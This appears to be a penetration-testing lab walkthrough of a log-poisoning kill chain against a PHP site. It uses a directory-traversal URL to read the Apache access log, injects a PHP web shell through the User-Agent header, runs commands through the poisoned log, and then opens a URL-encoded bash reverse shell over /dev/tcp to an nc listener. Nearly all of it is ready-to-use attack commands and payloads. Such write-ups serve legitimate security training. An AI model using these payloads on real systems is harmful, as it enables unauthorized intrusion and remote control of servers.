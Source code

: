 After getting a Directory traversal vuln we use it like this:
```
curl http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../var/log/apache2/access.log
...
192.168.50.1 - - [12/Apr/2022:10:34:55 +0000] "GET /meteor/index.php?page=admin.php HTTP/1.1" 200 2218 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0"
```

We notice that in the log is saved the User Agent. So we can change it in BurpSuite in order to execute it from the log:

```
<?php echo system($_GET['cmd']); ?>
```

New page parameter:
```
../../../../../../../../../var/log/apache2/access.log
```
```
../../../../../../../../../var/log/apache2/access.log&cmd=ps
```

If we use ls -la we get an error so we try to use url encoding:
```
../../../../../../../../../var/log/apache2/access.log&cmd=ls%20-la
```

And that works!
Reverse shell:
```
bash -i >& /dev/tcp/0.0.0.0/4444 0>&1
```
```
bash -c "bash -i >& /dev/tcp/0.0.0.0/4444 0>&1"
```
URL Encode it:
```
bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.119.3%2F4444%200%3E%261%22
```
Listener:
```
nc -nvlp 4444
```

This Killchain could be replicated on windows but the commands we're looking and using for will differ.


